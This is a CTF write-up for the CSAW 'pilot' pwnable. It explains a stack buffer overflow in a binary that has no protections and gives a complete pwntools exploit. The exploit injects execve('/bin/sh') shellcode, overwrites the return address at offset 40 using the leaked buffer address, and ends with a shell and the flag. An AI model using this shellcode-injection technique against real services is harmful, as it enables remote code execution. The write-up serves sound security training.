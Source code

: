 ## Solved by superkojiman

Easy warmup pwnable. Running it shows the following:

```
[*]Welcome DropShip Pilot...
[*]I am your assitant A.I....
[*]I will be guiding you through the tutorial....
[*]As a first step, lets learn how to land at the designated location....
[*]Your mission is to lead the dropship to the right location and execute sequence of instructions to save Marines & Medics...
[*]Good Luck Pilot!....
[*]Location:0x7ffd16d5e720
[*]Command:
```

The address printed is the location of the buffer. It waits for a command and stores our input in said buffer. The binary itself has no protections:

```
|root|csaw|~/work/pwn75-pilot|
# checksec pilotj
[*] '/root/work/pwn75-pilot/pilot'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x400000)
    RWX:      Has RWX segments
```

For 75 points, it's a vanilla buffer overflow. The saved return pointer can be overwritten at offset 40 from the buffer. Here's the exploit. Since the binary doesn't have NX, we can store our shellcode in the buffer and return to it. Here's the exploit: 

```
!/usr/bin/env python

from pwn import *

context(arch="amd64", os="linux")

r = remote("pwn.chal.csaw.io", 8464)

d = r.recv().split("*")
address = d[-2].split(":")[-1][:-2]

print "Address of buffer:", address

# RIP offset is 40 bytes
buf = ""
buf += "jhH\xb8/bin///sPH\x89\xe71\xf6j;X\x99\x0f\x05"
buf += "A"*(40 - len(buf))
buf += p64(int(address, 16))

r.sendline(buf)

print "Let's get shell!"
r.interactive()
```

Running it scores us a shell and the flag:

```
|root|csaw|~/work/pwn75-pilot|
# ./sploit.py
[+] Opening connection to pwn.chal.csaw.io on port 8464: Done
Address of buffer: 0x7ffd51ee01d0
Let's get shell!
[*] Switching to interactive mode
$ ls
flag
pilot
$ cat flag
flag{1nput_c00rd1nat3s_Strap_y0urse1v3s_1n_b0ys}
```
